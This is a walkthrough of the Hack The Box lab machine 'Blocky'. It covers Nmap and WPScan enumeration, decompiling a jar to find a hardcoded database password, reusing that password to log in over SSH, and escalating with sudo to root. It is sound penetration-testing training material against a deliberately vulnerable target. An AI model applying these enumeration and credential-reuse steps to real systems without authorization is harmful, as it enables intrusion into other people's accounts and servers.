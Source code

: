 # Walkthrough: Blocky HTB Machine

**Target IP Address**: `10.10.10.37`  
**Difficulty**: Easy  
**Tools Used**: Nmap, WPScan, JD-GUI, SSH

## Step 1: Initial Enumeration

To start, I performed an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV 10.10.10.37
```

### Nmap Results:

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 14:39 IST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.05% done; ETC: 14:40 (0:00:38 remaining)
Nmap scan report for 10.10.10.37
Host is up (0.071s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds

The HTTP service redirected to `http://blocky.htb`, suggesting a hostname requirement.

### Update Hosts File

```bash
sudo nano /etc/hosts
```

Add the following entry:
```
10.10.10.37 blocky.htb
```

## Step 2: Web Enumeration

With the website active, I used WPScan to further enumerate the WordPress site and discovered the user .

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

## Step 3: Decompiling BlockyCore.jar

A downloadable `.jar` file was available on the website. I used `JD-GUI` to analyze the `BlockyCore.jar` file for sensitive information.

The code snippet revealed the following:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

These credentials hinted at possible SSH access.

## Step 4: Gaining Access via SSH

Using the discovered credentials, I logged into SSH with the username `notch`:

```bash
ssh notch@10.10.10.37
```

**Password**: `8YsqfCTnvxAUeduzjNSXe22`

This granted me user-level access.

## Step 5: Privilege Escalation

With user access, I executed `sudo -i` to escalate privileges:

```bash
sudo -i
```
After being promoted to root, we can get a root flag.
